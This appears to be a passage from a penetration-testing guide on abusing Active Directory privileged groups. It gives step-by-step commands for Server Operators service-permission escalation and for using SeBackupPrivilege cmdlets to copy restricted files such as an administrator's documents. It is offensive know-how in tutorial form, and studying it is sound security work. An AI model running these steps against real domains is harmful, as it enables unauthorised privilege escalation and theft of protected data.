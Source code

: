 ```bash
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

### Domain Controller Access

Access to files on the DC is restricted unless the user is part of the `Server Operators` group, which changes the level of access.

### Privilege Escalation

Using `PsService` or `sc` from Sysinternals, one can inspect and modify service permissions. The `Server Operators` group, for instance, has full control over certain services, allowing for the execution of arbitrary commands and privilege escalation:

```cmd
C:\> .\PsService.exe security AppReadiness
```

This command reveals that `Server Operators` have full access, enabling the manipulation of services for elevated privileges.

## Backup Operators

Membership in the `Backup Operators` group provides access to the `DC01` file system due to the `SeBackup` and `SeRestore` privileges. These privileges enable folder traversal, listing, and file copying capabilities, even without explicit permissions, using the `FILE_FLAG_BACKUP_SEMANTICS` flag. Utilizing specific scripts is necessary for this process.

To list group members, execute:

```powershell
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```

### Local Attack

To leverage these privileges locally, the following steps are employed:

1. Import necessary libraries:

```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

2. Enable and verify `SeBackupPrivilege`:

```bash
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

3. Access and copy files from restricted directories, for instance:

```bash
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\report.pdf c:\temp\x.pdf -Overwrite
```
